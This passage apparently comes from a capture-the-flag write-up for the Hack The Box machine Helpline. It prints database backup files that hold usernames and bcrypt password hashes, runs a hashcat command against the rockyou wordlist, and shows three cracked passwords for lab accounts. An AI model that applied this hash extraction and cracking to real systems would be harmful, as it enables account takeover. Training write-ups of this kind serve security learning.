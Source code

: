 Part1 contains a ton of sql files. The ones that I found to be of interest were `aaapassword.sql` and `aaalogin.sql`:

```

PS C:\Users\0xdf\hackthebox\helpline-10.10.10.132\backup_postgres_9309_fullbackup_04_12_2019_17_43_part_1 > cat .\aaapassword.sql
INSERT INTO AaaPassword (password_id,password,algorithm,salt,passwdprofile_id,passwdrule_id,createdtime,factor) VALUES
(1, N'$2a$12$6VGARvoc/dRcRxOckr6WmucFnKFfxdbEMcJvQdJaS5beNK0ci0laG', N'bcrypt', N'$2a$12$6VGARvoc/dRcRxOckr6Wmu', 2, 1, 1545350288006, 12);
(302, N'$2a$12$2WVZ7E/MbRgTqdkWCOrJP.qWCHcsa37pnlK.0OyHKfd4lyDweMtki', N'bcrypt', N'$2a$12$2WVZ7E/MbRgTqdkWCOrJP.', 2, 1, 1545428506907, NULL);
(303, N'$2a$12$Em8etmNxTinGuub6rFdSwubakrWy9BEskUgq4uelRqAfAXIUpZrmm', N'bcrypt', N'$2a$12$Em8etmNxTinGuub6rFdSwu', 2, 1, 1545428808687, NULL);
(2, N'$2a$12$hmG6bvLokc9jNMYqoCpw2Op5ji7CWeBssq1xeCmU.ln/yh0OBPuDa', N'bcrypt', N'$2a$12$hmG6bvLokc9jNMYqoCpw2O', 2, 1, 1545428960671, 12);
(601, N'$2a$12$6sw6V2qSWANP.QxLarjHKOn3tntRUthhCrwt7NWleMIcIN24Clyyu', N'bcrypt', N'$2a$12$6sw6V2qSWANP.QxLarjHKO', 2, 1, 1545514864248, NULL);
(602, N'$2a$12$X2lV6Bm7MQomIunT5C651.PiqAq6IyATiYssprUbNgX3vJkxNCCDa', N'bcrypt', N'$2a$12$X2lV6Bm7MQomIunT5C651.', 2, 1, 1545515091170, NULL);
(603, N'$2a$12$gFZpYK8alTDXHPaFlK51XeBCxnvqSShZ5IO/T5GGliBGfAOxwHtHu', N'bcrypt', N'$2a$12$gFZpYK8alTDXHPaFlK51Xe', 2, 1, 1545516114589, NULL);
(604, N'$2a$12$4.iNcgnAd8Kyy7q/mgkTFuI14KDBEpMhY/RyzCE4TEMsvd.B9jHuy', N'bcrypt', N'$2a$12$4.iNcgnAd8Kyy7q/mgkTFu', 2, 1, 1545517215465, NULL);

PS C:\Users\0xdf\hackthebox\helpline-10.10.10.132\backup_postgres_9309_fullbackup_04_12_2019_17_43_part_1 > cat .\aaalogin.sql
INSERT INTO AaaLogin (login_id,user_id,name,domainname) VALUES
(1, 3, N'guest', N'-');
(2, 4, N'administrator', N'-');
(302, 302, N'luis_21465', N'-');
(303, 303, N'zachary_33258', N'-');
(601, 601, N'stephen', N'-');
(602, 602, N'fiona', N'-');
(603, 603, N'mary', N'-');
(604, 604, N'anne', N'-');

```

With those two files, I now have usernames and hashes for various accounts.

#### Crack Passwords

These are bcrypt hashes, which are *super* slow to crack. To run all of rockyou was going to take my computer 40+ days. That said, in the first 10 minutes, I got three results:

```

$ hashcat -m 3200 hashes /usr/share/wordlists/rockyou.txt --force

```

```

$2a$12$gFZpYK8alTDXHPaFlK51XeBCxnvqSShZ5IO/T5GGliBGfAOxwHtHu:1234567890 - 603 mary
$2a$12$Em8etmNxTinGuub6rFdSwubakrWy9BEskUgq4uelRqAfAXIUpZrmm:0987654321 - 303 zachary_33258
$2a$12$X2lV6Bm7MQomIunT5C651.PiqAq6IyATiYssprUbNgX3vJkxNCCDa:1q2w3e4r - 602 fiona

```
